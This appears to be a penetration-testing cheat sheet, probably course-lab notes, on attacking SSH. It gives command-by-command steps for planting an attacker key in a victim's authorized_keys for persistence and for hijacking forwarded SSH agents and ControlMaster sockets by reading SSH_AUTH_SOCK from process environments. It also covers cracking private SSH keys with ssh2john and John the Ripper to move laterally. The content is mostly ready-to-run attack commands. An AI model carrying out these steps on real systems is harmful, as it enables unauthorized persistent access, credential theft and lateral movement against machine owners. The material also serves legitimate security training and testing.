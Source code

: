 ```yaml
---
description: SSH Persistence and Hijacking
---
```


# SSH

## Peristence

if writable on victim

\~/.ssh/authorized\_keys

### Create keys on attacker box

```
ssh-keygen
```

### Copy id\_rsa.pub key to victim

```
echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8= kali@kali" >> /home/kali/.ssh/authorized_keys
```

```
ssh-copy-id "user@hostname.example.com -p <port-number>"
```

```
cat ~/.ssh/id_rsa.pub | ssh <user>@<hostname> 'cat >> .ssh/authorized_keys
```

Now you can SSH without a passphrase

```
ssh kali@linuxvictim
```

## SSH Agent-Forwarding

Looking for socket files

* Use existing connection to get to another machine
* modification of \~/.ssh/config
* any new connections will try to use an existing control socket



* need to set permissions on the config file and create the controlmaster folder

```
chmod 644 ~/.ssh/config && mkdir ~/.ssh/controlmaster
```

* Create keys

```
ssh-keygen
```

* public keys need to be copied to the other boxes if possible

```
ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@controller  
ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@linuxvictim
```

* Must modify local .ssh/config file to enable forward agent

```
echo "ForwardAgent yes" >> .ssh/config
```

* The intermediate server / controller must have AllowAgentForwarding in sshd config enabled

```
grep AllowAgentForwarding /etc/ssh/sshd_config
```

* must enable the ssh agent on our Kali box

```
eval 'ssh-agent'
```

* now we must add our keys to the ssh agent

```
ssh-add
```

* ssh into the controller as offsec, then ssh into the linuxvictim as offsec and exit the linux victim session

Controlmaster config

```

Host *  
ControlPath ~/.ssh/controlmaster/%r@%h:%p  
ControlMaster auto  
ControlPersist 10m
ForwardAgent yes
```

* need to set permissions on the config file and create the controlmaster folder

```
chmod 644 ~/.ssh/config  
mkdir ~/.ssh/controlmaster
```

* if there happens to be a session it can be seen in the controlmaster folder created

```

ls -al ~/.ssh/controlmaster/
```

* If there is an entry you can ssh to that box by specifying ssh -S

```
ssh -S /home/offsec/.ssh/controlmaster/offsec\@linuxvictim\:22 offsec@linuxvictim
```

### Enumeration of sockets

* Looking for the "SSH\_AUTH\_SOCK entry"

```
ps -aux | grep ssh

pstree -p offsec | grep ssh\

cat /proc/[pid]/environ
```

### Look for the last line "SSH\_AUTH\_SOCK"

```
SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380
```

```
ssh-add -l
```

```
SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380
```

```
ssh offsec@linuxvictim
```

## Cracking SSH Keys

### Copy SSH key to Kali

```
python /usr/share/john/ssh2john.py svuser.key > svuser.hash
```

gunzip /usr/share/wordlists/rockyou.gz (if not already done)

```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./svuser.hash
```

Use cracked key to laterally move

```
ssh -i ./svuser.key -o StrictHostKeyChecking=no svuser@controller
```
